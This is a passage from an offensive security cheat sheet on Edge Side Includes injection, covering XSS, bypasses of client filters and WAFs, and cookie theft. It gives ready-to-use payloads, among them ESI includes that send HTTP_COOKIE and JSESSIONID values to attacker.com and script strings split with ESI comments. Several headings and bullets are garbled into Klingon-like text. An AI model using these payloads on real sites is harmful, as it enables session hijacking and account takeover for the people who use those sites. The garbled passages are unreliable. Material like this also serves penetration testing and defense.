 #### XSS

The following ESI directive will load an arbitrary file inside the response of the server
```xml
<esi:include src=http://attacker.com/xss.html>
```
#### Bypass client XSS protection

#### qIbDaq yIqImHa' XSS protection

To bypass client XSS protection, you can try the following techniques:

1. **Use different encodings**: Encode the payload using different encodings such as URL encoding, HTML entity encoding, or JavaScript string encoding. This can help bypass client-side filters that only look for specific encodings.

2. **Use obfuscation techniques**: Obfuscate the payload by using techniques like character substitution, concatenation, or encoding. This can make it harder for client-side filters to detect and block the payload.

3. **Use alternative injection points**: Instead of injecting the payload directly into the vulnerable input field, try injecting it into other parts of the application that may not be protected by client-side filters. This can include HTTP headers, cookies, or hidden form fields.

4. **Leverage browser quirks**: Exploit browser quirks or vulnerabilities to bypass client-side filters. For example, some browsers may interpret certain characters differently, allowing you to bypass filters that are based on specific character patterns.

5. **Use polyglot payloads**: Craft payloads that are valid in multiple contexts, such as both HTML and JavaScript. This can help bypass client-side filters that only look for specific payload formats.

Remember to always test your bypass techniques thoroughly and ensure that they do not introduce any additional security risks.
```xml
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

Use <!--esi--> to bypass WAFs:
<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>
<img+src=x+on<!--esi-->error=ale<!--esi-->rt(1)>
```
#### qo'wI' 'oH

* qo'wI' 'oH qar'a'ghach 'oH
```xml
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
<esi:include src="http://attacker.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
* XSS-vaDmey HTTP\_ONLY cookie vItlhutlhla'ghach, response vItlhutlhla'ghachDaq qechmeyDI' reflect:
```bash
# This will reflect the cookies in the response
<!--esi $(HTTP_COOKIE) -->
# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)
<!--esi/$url_decode('"><svg/onload=prompt(1)>')/-->

# It's possible to put more complex JS code to steal cookies or perform actions
```
#### qarDaS Local File
